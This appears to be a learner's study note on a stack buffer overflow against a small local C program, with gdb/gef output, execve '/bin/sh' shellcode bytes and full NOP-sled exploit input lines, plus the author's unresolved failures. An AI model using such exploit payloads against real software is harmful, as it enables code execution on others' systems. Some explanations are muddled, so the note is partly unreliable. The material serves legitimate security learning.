


# Running a Buffer Overflow Attack

- Read the program's source code `vuln.c`.
- Notice that it declares a buffer with length of 500 bytes, and that it copies our supplied argument into that buffer.
- This way, when a shady user enters an input longer than 500 bytes, it __can be abused to overflow the buffer into other parts of the stack.__
- When that happens, that's what called __stack overflow.__
- This is what stack would look like for our `vuln.c` program:



- If you were to run this program in `gdb` and supply something longer than 500 bytes:

```sh
(gdb) r $(python -c 'print("\x41"*504)')
Starting program: 04-overflows/bin/vuln $(python -c 'print("\x41"*504)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x080491b2 in main (argc=<error reading variable: Cannot access memory at address 0x41414141>,
    argv=<error reading variable: Cannot access memory at address 0x41414145>) at vuln.c:9
9       }
(gdb) x/40b $sp
0x4141413d:     Cannot access memory at address 0x4141413d
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
```

- Now because you supplied something bigger than allowed limit, you get a __segmentation fault.__
- SEGFAULT is an error that indicates that you've tried to access a memory address that you don't have access to or it simply doesn't even exist.
- Notice how `esp` is almost overwritten by `0x41`s.
- Have a look at `gdb-gef` output which is prettier and more informative:

```sh
gef➤  r $(python3 -c 'print("\x41"*506)')
Starting program: /home/noobuntu/nightmare/bof/bin/vuln $(python3 -c 'print("\x41"*506)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x080491c2 in main (argc=<error reading variable: Cannot access memory at address 0x41414141>, argv=<error reading variable: Cannot access memory at address 0x41414145>) at vuln.c:9
9       }
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0
$ebx   : 0xf7004141
$ecx   : 0x41414141 ("AAAA"?)
$edx   : 0xffffcd9d  →  "AAAAAAAAA"
$esp   : 0x4141413d ("=AAA"?)
$ebp   : 0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffce74  →  0xffffd069  →  "/home/noobuntu/nightmare/bof/bin/vuln"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x080491c2  →  <main+004c> ret
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
[!] Unmapped address: '0x4141413d'
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80491bd <main+0047>      pop    ebx
    0x80491be <main+0048>      pop    ebp
    0x80491bf <main+0049>      lea    esp, [ecx-0x4]
 →  0x80491c2 <main+004c>      ret
    0x80491c3 <__x86.get_pc_thunk.ax+0000> mov    eax, DWORD PTR [esp]
    0x80491c6 <__x86.get_pc_thunk.ax+0003> ret
    0x80491c7                  add    bl, dh
    0x80491c9 <_fini+0001>     nop    ebx
    0x80491cc <_fini+0004>     push   ebx
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:vuln.c+9 ────
      4  int main(int argc, char **argv) {
      5      char buffer[500];
      6      strcpy(buffer, argv[1]);
      7
      8      return 0;
 →    9  }
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x80491c2 in main (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[!] Cannot access memory at address 0x41414141
```

- ~~Notice the last line, it means it overwrote the return address with `0x41`'s!~~
- The last address means that we corrupted `ESP` and that's why this program is crashing.

## Exploitation

- The idea is to __overwrite instruction pointer with an address of our malicious code.__
- This malicious code is called __shellcode__, and it's just raw hex bytes of assembly instructions.
- Our shellcode will be supplied along with the input, so that the `eip` points right back to it and gets it executed.
- Notice that in the shellcode, `\xcd\x80` makes a system interrupt, it's the same as:

```asm
804901d: cd 80  int 0x80
```

- To make this work we need to craft our exploit like this:
1. Put `\x90` (`nop`) instructions that will do nothing successfully.
    - `nop` is needed here because it will just continue on to the next instruction.
2. Put our shellcode right after bunch of `nop` instructions.
3. Put the return address so that it points somewhere in the buffer.


- Nop sled is needed because we don't know if execution will land on the middle of our shellcode.
- Thus a nop sled ensures that the shellcode will be executed from the beginning.
- This is what our stack would look like with all the `nop` instructions and a shell code:



- So our input would look something like this:

```sh
gef➤  r $(python3 -c 'print("\x90" * 508 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80" + "\x41\x41\x41\x41" * 10)')
```

- But notice that `508` is too big. It needs to be precisely calculated for this to work.
- So instead of `508` it should be 508-25-40 = 443 bytes.
- Because our shell code is 25 bytes, and our return address is 40 bytes long.
- The return address I've entered above is just a dummy address that also needs to be changed correctly.
- You list the stack pointer, pick a random address in it like `0xffffcee0` and you input that address as the return address, but respecting the little endian, so it becomes `\xe0\xce\xff\xff`
- So the final input would look like this:

```sh
gef➤  r $(python3 -c 'print("\x90" * 443 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80" + "\xe0\xce\xff\xff" * 10)')
```

- This should pop a shell for us!

## Complications

- For some reason how ever much bytes I supply into the input, I can't get `eip` to be overwritten.
- This means that I can't return to a particular address in my buffer which should lead the execution to my shellcode.
- When running the `vuln` program in `gdb-gef` with the above mentioned input I get nailed with:

```sh
[!] Cannot access memory at address 0x90c290c2

$eip   : 0x080491c2  →  <main+004c> ret 
```

- So `eip` doesn't change whatever I do, it just continues to point to the next instruction.


## `vuln2.c`

- See the source for `vuln2.c`.
- Layout
    - `ebx` at 504 bytes.
    - `ebp` at 508 bytes.
    - `eip` at 512 bytes.
- It's the same principle, except buffer overflow happens in `vulnfunction()`.
- Main tends to over complicate things (yet to explore this weird stuff).
- I've __been able to overwrite EIP with the following input:__

```sh
gef➤  r ABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDABCDXXXXEEEE
```

- It's 512 characters long, and the last 4 characters `EEEE` get placed into `EIP` after the function returns.

```sh
0x45454545 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0
$ebx   : 0x44434241 ("ABCD"?)
$ecx   : 0xffffd290  →  0x53004545 ("EE"?)
$edx   : 0xffffcd8e  →  0xd0004545 ("EE"?)
$esp   : 0xffffcd90  →  0xffffd000  →  0x00000000
$ebp   : 0x58585858 ("XXXX"?)
$esi   : 0xffffce74  →  0xffffd067  →  "/home/noobuntu/nightmare/bof/bin/vuln2"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x45454545 ("EEEE"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcd90│+0x0000: 0xffffd000  →  0x00000000    ← $esp
0xffffcd94│+0x0004: 0xf7fbe66c  →  0xf7ffdba0  →  0xf7fbe780  →  0xf7ffda40  →  0x00000000
0xffffcd98│+0x0008: 0xf7fbeb10  →  0xf7c1acc6  →  "GLIBC_PRIVATE"
0xffffcd9c│+0x000c: 0x080491c1  →  <main+0016> add eax, 0x2e3f
0xffffcda0│+0x0010: 0x00000001
0xffffcda4│+0x0014: 0xffffcdc0  →  0x00000002
0xffffcda8│+0x0018: 0xf7ffd020  →  0xf7ffda40  →  0x00000000
0xffffcdac│+0x001c: 0xf7c21519  →   add esp, 0x10
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x45454545
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln2", stopped 0x45454545 in ?? (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/4b $eip
0x45454545:     Cannot access memory at address 0x45454545
```

- Picking a random address from the stack `0xffffcdc8` turns into `\xc8\xcd\xff\xff` (LE).
- Running the program with:

```sh
gef➤  r $(python3 -c 'print("\x90" * 447 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80" + "\xc8\xcd\xff\xff" * 10)')
```

- But the `eip` gets a random value for some reason:

```sh
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x90c290c2
```

- Python may be adding `\xc2` on `\x90` due to how python3 handles raw bytes.
- To fix that use `b` in front of the string to turn it into byte string.
    - https://stackoverflow.com/questions/62364814/python-will-not-print-nop

- This is how i crafted my exploit with python:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof$ python3 -c 'import sys;nopsled="\x90"*447;shellcode="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";retaddr="\xac\xcd\xff\xff"*10;exploit=nopsled+shellcode+retaddr;sys.stdout.buffer.write(exploit.encode("latin-1"))' > exploit
noobuntu@noobuntu-VirtualBox:~/nightmare/bof$ hexdump exploit
0000000 9090 9090 9090 9090 9090 9090 9090 9090
*
00001b0 9090 9090 9090 9090 9090 9090 9090 3190
00001c0 31c0 31db 31c9 50d2 6e68 732f 6868 2f2f
00001d0 6962 e389 0bb0 80cd cdac ffff cdac ffff
00001e0 cdac ffff cdac ffff cdac ffff cdac ffff
*
0000200
```

- But this time, `EIP` gets overwritten with some random value for some reason.


----

#### Source

1. https://www.youtube.com/watch?v=1S0aBV-Waeo
2. https://ivanitlearning.wordpress.com/2020/03/19/tips-on-simple-stack-buffer-overflow/
3. https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection/13929#13929
4. https://stackoverflow.com/questions/14760587/how-does-a-nop-sled-work
